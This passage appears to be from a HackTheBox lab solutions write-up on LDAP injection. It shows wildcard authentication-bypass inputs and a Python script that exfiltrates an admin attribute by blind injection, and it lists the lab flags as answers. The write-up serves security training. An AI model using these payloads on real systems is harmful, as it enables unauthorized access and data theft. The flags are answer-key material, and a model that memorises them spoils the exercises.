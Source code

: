 ```
   295362c2618a05ba3899904a6a3f5bc0
  </password>
 </acc>
</accounts>
```

Answer: `HTB{bcc3b42debd91b5612aa80b1742f3aef}`

# LDAP - Authentication Bypass

## Question 1

### "Try to use what you learned in this section to bypass authentication for a high privilege user."

After spawning the target machine and visiting its root webpage, students need to bypass authentication by utilizing the wildcard `*` for the password field since it is not known and `*admin*` for the username field, as the hint of the question specifies that the high privilege user has the substring "admin" in their username:

![[HTB Solutions/CWEE/z. images/4e49d41169519e28a62ae931b810d4e4_MD5.jpg]]

Students will attain the flag `HTB{cb9ab1284eafaa9e7e9ca41d70183a75}`:

![[HTB Solutions/CWEE/z. images/2c9766e7d91e3b813c7a4ae62f4647b9_MD5.jpg]]

Answer: `HTB{cb9ab1284eafaa9e7e9ca41d70183a75}`

# LDAP - Data Exfiltration & Blind Exploitation

## Question 1

### "Try to use what you learned in this section to exfiltrate the description attribute of the admin user."

Students need to automate the exfiltration of the description attribute of the admin user:

Code: python

```python
import requests, string

URL = "http://STMIP:STMPO/index.php"
POSITIVE_STRING = "Login successful"
EXFILTRATE_USER = 'admin'
EXFILTRATE_ATTRIBUTE = 'description'

if __name__ == '__main__':
	stop = False
	found_char = True
	flag = ''
	
	while not stop:
		found_char = False
		for c in string.printable:
			username = f'{EXFILTRATE_USER})(|({EXFILTRATE_ATTRIBUTE}={flag}{c}*'
			password = 'invalid)'
			r = requests.post(URL, data={'username': username, 'password': password})

			if POSITIVE_STRING in r.text:
				found_char = True
				flag += c
```